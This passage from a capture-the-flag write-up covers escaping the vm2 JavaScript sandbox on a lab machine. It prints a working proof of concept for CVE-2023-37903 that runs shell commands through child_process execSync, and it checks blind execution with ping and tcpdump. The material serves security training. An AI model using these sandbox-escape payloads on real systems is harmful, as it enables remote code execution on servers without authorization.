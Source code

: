 ```

```

The only trick here is seeing that it is using the `child_process` module’s `execSync` function to run `touch pwned`, which will create a `pwned` file in the current directory. That doesn’t help much at this point, as I don’t have access to the filesystem to see the result. I’ll want to change it to something I can see, like `id`, and then paste it in, and the result is the output of that command on Codify:

![image-20240403195800662](https://0xdf.gitlab.io/img/image-20240403195800662.png)

#### CVE-2023-37903

[CVE-2023-37903](https://security.snyk.io/vuln/SNYK-JS-VM2-5772823) abuses how NodeJS allows for a custom `inspect` function to be defined:

```
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        inspect.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});

```

This POC has the same issue that I need to change the payload from `touch pwned` to something else, but even then, it doesn’t show the result:

![image-20240404072941416](https://0xdf.gitlab.io/img/image-20240404072941416.png)

What’s returned is a JavaScript `Promise` object. There are probably ways to get the result from this, but I wasn’t able to figure it out with my limited JavaScript skills. Instead, I’ll test a blind payload, like `ping`. I’ll start `tcpdump` on my host listening for ICMP packets, and then run `ping -c 1 10.10.14.6` (the `-c 1` is important on Linux systems as without it, `ping` will run forever):

```
oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
02:46:49.800538 IP 10.10.11.239 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
02:46:49.800564 IP 10.10.14.6 > 10.10.11.239: ICMP echo reply, id 2, seq 1, length 64

```

An ICMP packet arrives at my host, which is evidence that the code executed.

#### CVE-2023-37466
